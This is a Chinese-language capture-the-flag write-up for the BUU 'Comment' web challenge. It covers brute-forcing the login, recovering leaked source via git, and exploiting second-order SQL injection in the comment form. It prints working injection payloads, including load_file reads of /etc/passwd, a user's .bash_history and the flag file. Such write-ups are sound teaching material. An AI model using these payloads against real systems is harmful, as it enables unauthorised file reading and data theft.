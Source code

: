 ```yaml
---
title: Comment
date: 2021-04-06 16:55:26
tags: wp

---
```

## '__'
留言那里存在XSS，BUU的XSS平台没法注册，就没试'()'
       
二次注入      

![](https://img11.360buyimg.com/ddimg/jfs/t1/174863/29/3351/8503/6072da0aEe2e9591e/202fcd59c2670f49.png)

提示了账号和密码，一般后面是三位数字，爆破是666       
![](https://ftp.bmp.ovh/imgs/2021/04/04a05effe6890640.png)      
`write_do.php`    
看WP是git泄露        
Githack一下下载下来`write_do.php`  ，但是是残缺的，git log历史commit里也没`add write_do.php`??      





	```php
	<?php
	include "mysql.php";
	session_start();
	if($_SESSION['login'] != 'yes'){
	    header("Location: ./login.php");
	    die();
	}
	if(isset($_GET['do'])){
	switch ($_GET['do'])
	{
	case 'write':     ##发帖
	    $category = addslashes($_POST['category']);
	    $title = addslashes($_POST['title']);
	    $content = addslashes($_POST['content']);
	    $sql = "insert into board
	            set category = '$category',
	                title = '$title',
	                content = '$content'";
	    $result = mysql_query($sql);
	    header("Location: ./index.php");
	    break;
	case 'comment':   ##留言
	    $bo_id = addslashes($_POST['bo_id']);
	    $sql = "select category from board where id='$bo_id'";
	    $result = mysql_query($sql);
	    $num = mysql_num_rows($result);
	    if($num>0){
	    $category = mysql_fetch_array($result)['category'];
	    $content = addslashes($_POST['content']);
	    $sql = "insert into comment
	            set category = '$category',
	                content = '$content',
	                bo_id = '$bo_id'";
	    $result = mysql_query($sql);
	    }
	    header("Location: ./comment.php?id=$bo_id");
	    break;
	default:
	    header("Location: ./index.php");
	}
	}
	else{
	    header("Location: ./index.php");
	}
	?>
	```




虽然有addslashes函数，但是，数据库查询时会自动过滤调斜线的     
![](https://ftp.bmp.ovh/imgs/2021/04/4d8c1aa58308f665.png)     
      
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";      


`category=',content=database(),/*     `   
留言输入`content=*/#`         
就成了      

    $sql = "insert into comment
            set category = '',content=database(),/*',
                content = '*/#',
                bo_id = '$bo_id'";      


就可以查询库了 ----`ctf`       
然后查表啥的，但查不出来       

`load_file`        

`	',content=load_file('/etc/passwd'),/*`     
![](https://ftp.bmp.ovh/imgs/2021/04/f60314c154735390.png)       

`',content=load_file('/home/www/.bash_history'),/*`      
![](https://ftp.bmp.ovh/imgs/2021/04/4ec8c167bc9d6949.png)    

虽然被删了，但`/tmp/html`中还有        
`',content=load_file('/tmp/html/.DS_Store'),/*`会乱码，加hex`',content=hex(load_file('/tmp/html/.DS_Store')),/*`   
![](https://ftp.bmp.ovh/imgs/2021/04/430404dd20585acc.png) 

`',content=hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/*`      
解码得到flag     
